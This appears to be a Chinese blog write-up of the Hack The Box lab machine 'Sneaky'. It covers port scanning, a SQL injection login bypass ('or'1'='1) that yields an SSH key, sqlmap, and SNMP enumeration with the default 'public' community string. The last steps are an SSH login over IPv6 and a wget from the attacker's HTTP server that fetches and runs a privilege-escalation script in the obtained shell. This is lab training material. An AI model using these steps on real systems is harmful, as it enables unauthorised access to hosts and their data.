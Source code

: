 ```yaml
---
title: Sneaky(snmp默认口令泄露敏感信息)
categories:
- training
tags:
- training
---
```


## enum

```
Discovered open port 161/udp on 10.10.10.20                                    
Discovered open port 80/tcp on 10.10.10.20 

80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
161/tcp closed snmp
```
## web

单引号报错，双单引号页面正常，说明有sql注入漏洞。
![28](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/28.PNG)

![29](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/29.PNG)

![30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/30.PNG)

用户名admin，密码123'or'1'='1   登入页面，获得一个ssh密钥。

保存密钥为id.rsa文件。
```
chmod 400 id.rsa
ssh -i id.rsa admin@10.10.10.20
ssh -i id.rsa thrasivoulos@10.10.10.20
猜测用户名失败，Connection refused
```
### sql注入提取有效用户名

sqlmap -r sql

![31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/31.PNG)

## snmp

[snmp&snmpwalk](https://whale3070.github.io/tools/2019/03/11/x/)
```
snmpwalk -c public -v 1 10.10.10.20
snmpwalk -Os -c public -v 1 10.10.10.20

use scanner/snmp/snmp_enum
set RHOSTS 10.10.10.20

python enyx.py  2c  public  10.10.10.20

ssh -i id.rsa -6 thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:d82f
```
![32](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/32.PNG)

【本地执行】python -m SimpleHTTPServer 888

【获得的shell执行】cd /tmp;wget http://10.10.14.18:888/linux-exploit-suggester.sh
chmod a+x linux*;./linux* > out.txt

找到了一个suid程序，可以进行缓冲区溢出来获得root权限。这一部分不是很熟悉，等以后有时间再深入学习下吧。

## 总结
本次实验演示了snmp public/private默认口令泄露主机敏感信息的情况。

ssh禁止了ipv4连接，Connection refused，但是还有ipv6地址。这个思路一般人想不到吧。。。
第一次使用了IPv6地址进行ssh登陆。每一次主机重启，IPv6地址都会改变。

msf的snmp_enum模块可以枚举默认密码的设备的详细信息，但是对于延时很严格，网络不好很可能得不到查询结果。


